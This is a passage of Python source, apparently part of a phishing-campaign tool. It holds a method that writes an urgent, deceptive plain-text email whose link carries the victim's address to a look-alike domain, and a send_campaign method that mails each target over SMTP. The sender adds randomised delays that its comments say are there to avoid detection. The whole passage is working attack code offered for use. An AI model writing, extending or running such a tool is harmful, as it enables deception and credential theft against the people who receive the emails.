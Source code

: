 ```python
        '''
        return html
    
    def _craft_text_body(self, target: Target, payload_url: str, pretext: str) -> str:
        """Craft plain text version for email clients that don't support HTML"""
        text = f'''
Dear {target.name},

{pretext}

This message requires your immediate attention. To proceed, please visit:
{payload_url}?id={target.email}

This request is time-sensitive and must be completed within 48 hours.

If you have questions, please contact your department administrator.

Best regards,
{target.department} Department

---
This is an automated message. Please do not reply.
        '''
        return text
    
    def send_campaign(self, smtp_password: str):
        """
        Execute phishing campaign by sending emails to all targets
        Implements rate limiting to avoid detection
        """
        import time
        
        print(f"[*] Starting campaign: {self.campaign_name}")
        print(f"[*] Targets: {len(self.targets)}")
        
        for target in self.targets:
            try:
                # Generate unique payload URL for tracking
                payload_url = f"https://legitimate-looking-domain.com/portal"
                
                # Craft email
                msg = self.craft_email(target, payload_url)
                
                # Send email via SMTP
                with smtplib.SMTP(self.smtp_server, 587) as server:
                    server.starttls()
                    server.login(self.sender_email, smtp_password)
                    server.send_message(msg)
                
                # Track sent email
                self.sent_emails[target.email] = datetime.now()
                print(f"[+] Email sent to {target.email}")
                
                # Rate limiting: Wait 30-120 seconds between emails
                # This mimics human behavior and avoids triggering rate limits
                wait_time = 30 + (hash(target.email) % 90)  # Pseudo-random 30-120s
                print(f"[*] Waiting {wait_time} seconds before next email...")
                time.sleep(wait_time)
                
            except Exception as e:
                print(f"[!] Failed to send to {target.email}: {e}")
        
        print(f"[✓] Campaign complete. Sent {len(self.sent_emails)}/{len(self.targets)} emails")
```